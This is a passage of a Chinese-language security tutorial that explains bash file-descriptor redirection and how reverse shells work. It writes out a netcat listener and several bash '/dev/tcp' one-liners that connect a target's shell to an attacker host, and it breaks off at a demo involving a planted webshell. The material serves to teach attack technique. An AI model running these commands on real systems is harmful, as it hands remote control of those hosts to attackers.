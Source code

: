 标准输入输出重定向：[描述符]>&[描述符]，如：0>&1，标准输入重定向到标准输出

  > 注：这里的 & 目的是为了区分数字名字的文件和文件描述符，如果没有 & 系统会认为是将文件描述符重定向到了一个数字作为文件名的文件，而不是一个文件描述符。且重定向之间所有字符间不要有空格。

bash在执行一条指令的时候，首先会检查命令中是否存在文件描述符重定向的符号，如果存在那么**首先将文件描述符重定向（预处理）**，然后在把重定向去掉，继续执行指令。如果指令中存在多个重定向，重定向**从左向右解析**。

## 常见手法

反弹Shell的前置条件需要获取到目标主机的初始权限。这里简单总结下反弹Shell的常见手法：

### 1、Bash反弹

攻击机监听：

```bash
nc -lvvp [端口]
```

目标机执行：

```bash
bash -i 1> /dev/tcp/[攻击机host]/[端口] 0>&1 2>&1
```

或

```bash
bash -i 5<>/dev/tcp/[攻击机host]/[端口] 0>&5 1>&5
```

>优点：在大多数Liunx系统上都可以使用
>缺点：存在符号>、&在反序列化中或者对符号转义的情况下就没有办法反弹了。
>
>注：若Linux系统上不存在bash可以使用sh代替反弹

#### **命令原理**

第一种命令相关介绍：

- `bash -i`：开启一个交互式的Shell

- `1> /dev/tcp/[攻击机host]/[端口]`：调用socket建立链接，将标准输出（1）重定向到TCP的连接上面，也就是将标准输出发送给远程主机

- `0>&1 2>&1`：将标准输入（0）和错误输出流（2）都指向标准输出（1），而标准输出我们已经发给了远程主机，那么相当于是将输入输出流都重定向到了TCP连接，即本地主机可以通过TCP连接来接收指令，并且将输出流全部发给远程主机。

故该命令也可简写为如下：

```bash
bash -i >& /dev/tcp/[攻击机host]/[端口] 0>&1
```

上述命令是将标准错误（2）和标准输出（1）重定向到Socket连接文件。并将标准输入（0）重定向到标准输出（1），此时标准输出（1）指向Socket连接，从而实现了与反弹Shell的交互。

第二种命令则是将标准输入、输出和错误均重定向到Socket连接文件。

#### 演示测试

在我们待测试的站点相关目录下存放了一个一句话木马文件，如图：

